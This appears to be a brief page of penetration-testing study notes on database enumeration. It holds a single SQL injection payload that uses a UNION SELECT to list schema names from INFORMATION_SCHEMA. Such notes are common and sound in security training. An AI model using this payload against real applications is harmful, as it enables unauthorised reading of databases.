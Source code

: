 # Database Enumeration





<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Information Schema

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

